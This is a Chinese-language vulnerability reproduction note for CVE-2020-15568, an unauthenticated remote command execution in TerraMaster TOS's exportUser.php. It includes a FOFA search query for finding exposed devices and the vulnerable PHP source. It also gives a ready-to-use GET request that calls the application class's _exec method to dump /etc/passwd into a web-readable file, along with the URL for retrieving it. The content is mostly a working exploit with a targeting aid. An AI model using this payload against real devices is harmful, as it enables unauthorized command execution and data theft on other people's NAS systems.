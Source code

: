 # TerraMaster TOS exportUser.php 远程命令执行 CVE-2020-15568

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.1.24

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>pq.txt
```

返回200后再次访问

````
http://xxx.xxx.xxx.xxx/include/pq.txt
````

![](image/tm-9.png)